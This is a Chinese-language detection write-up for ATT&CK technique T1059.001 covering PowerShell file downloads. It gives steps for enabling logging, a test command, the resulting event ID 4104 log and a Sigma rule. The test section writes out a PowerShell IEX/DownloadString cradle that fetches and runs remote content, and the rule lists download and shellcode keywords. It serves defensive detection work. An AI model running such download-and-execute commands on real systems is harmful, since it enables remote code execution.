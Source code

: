 # T1059-001-win-检测Powershell下载文件行为

## 来自ATT&CK的描述

攻击者可能滥用PowerShell来执行命令和脚本。PowerShell是Windows操作系统中包含的功能强大的交互式命令行界面和脚本环境。攻击者可以使用PowerShell执行许多操作，包括发现信息和执行恶意代码。示例包括Start-Process可用于运行可执行文件的Invoke-Commandcmdlet和可在本地或在远程计算机上运行命令的cmdlet（尽管使用PowerShell连接到远程系统需要管理员权限）。

PowerShell也可以用于从Internet下载并运行可执行文件，这些可执行文件可以从磁盘或内存中执行而无需接触磁盘。

提供了许多基于PowerShell的攻击性测试工具，包括Empire，PowerSploit，PoshC2和PSAttack。

还可以执行PowerShell命令活脚本，而无需通过.NET框架和Windows公共语言接口（CLI）公开的powershell.exePowerShell底层System.Management.Automation程序集DLL的接口直接调用二进制文件。

## 检测日志

Windows powershell日志审核策略

- 按Win+R打开Windows运行窗口,在输入框里输入gepdit.msc,打开Windows本地组策略编辑器;
- 找到计算机配置/管理模板/Windows组件/Windows Powershell，根据需求打开右侧所需要的日志功能；

## 测试复现

```yml
PS C:\Users\12306br0> IEX (New-Object System.Net.Webclient).DownloadString('http://blog.csdn.net/huangxvhui88/article/de
tails/89361287')
```

## 测试留痕

```yml
Powershell事件ID：4104
正在创建 Scriptblock 文本(已完成 1，共 1):
IEX (New-Object System.Net.Webclient).DownloadString('http://blog.csdn.net/huangxvhui88/article/details/89361287')

ScriptBlock ID: e9f29288-34e7-497f-8fff-9a6cf6c355da
```

## 检测规则/思路

### sigma规则

```yml
title: 检测PowerShell下载文件行为
status: experimental
description: 检测在powershell下载文件行为，windows server 2016测试
tags:
    - attack.t1059-001
    - attack.execution
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image: 
            - '*\powershell.exe'
            - '*\powershell_ise.exe'
        CommandLine:
            - '*Net.WebClient*'
            - '*DownloadFile*'
            - '*Invoke-WebRequest*'
			- '*Invoke-Shellcode*'
			- '*http*'
			- '*Start-BitsTransfer*'
			- '*IEX*'
			- '*mpcmdrun.exe*'
    condition: selection
level: medium
```

### 建议

在使用Powershell日志进行检测时，我们不建议使用进程名称加命令行关键词匹配的方式进行检测。因为Powershell事件ID：4104中并不包含进程信息。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059/001/>

PowerShell 下载文件

<https://www.pstips.net/powershell-download-files.html>

检测Powershell下载文件行为

<https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Execution/PowerShell%20downloads.txt>

Powershell与威胁狩猎

<https://www.freebuf.com/articles/terminal/267080.html>
